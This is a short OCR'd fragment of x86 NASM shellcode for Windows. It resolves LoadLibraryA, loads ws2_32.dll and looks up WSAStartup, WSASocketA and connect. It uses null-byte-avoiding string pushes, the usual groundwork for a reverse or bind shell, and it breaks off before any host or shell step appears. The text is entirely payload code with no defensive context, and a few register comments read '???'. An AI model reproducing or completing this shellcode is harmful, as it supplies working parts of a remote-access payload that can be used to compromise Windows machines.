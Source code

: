 ```nasm

; use GetProcAddress to find LoadLibraryA
xor ecx, ecx
push ecx
push 0x41797261
push 0x7262694c
push 0x64616f4c
push esp
push ebx
call edi

; EAX = LoadLibraryA address
; ECX = kernel32 base address
; EDX = kernel32 base address
; EBX = kernel32 base address
; ESP = stack pointer to 'LoadLibraryA' 
; ESI = ???
; EDI = GetProcAddress address

; use LoadLibraryA to load the ws2_32.dll
push 0x61616c6c
sub word [esp + 0x2], 0x6161
push 0x642e3233
push 0x5f327377
push esp
call eax

; EAX = ws2_32.dll address
; ECX = ???
; EDX = some sort of offset
; EBX = kernel32 base address
; ESP = pointer to string "ws2_32.dll'
; ESI = some address
; EDI = GetProcAddress address

; use GetProcAddress to get location of WSAStartup function
push 0x61617075
sub word [esp + 0x2], 0x6161
push 0x74726174
push 0x53415357
push esp
push eax
call edi

push eax
lea esi, [esp]                  ; esi will store WSAStartup location, and we'll calculate offsets from here

; use GetProcAddress to get location of WSASocketA
push 0x61614174
sub word [esp + 0x2], 0x6161
push 0x656b636f
push 0x53415357
push esp
push ecx
call edi

mov [esi + 0x4], eax                  ; esi at offset 0x4 will now hold the address of WSASocketA

; use GetProcAddress to get the location of connect
push 0x61746365
sub dword [esp + 0x3], 0x61
push 0x6e6e6f63
```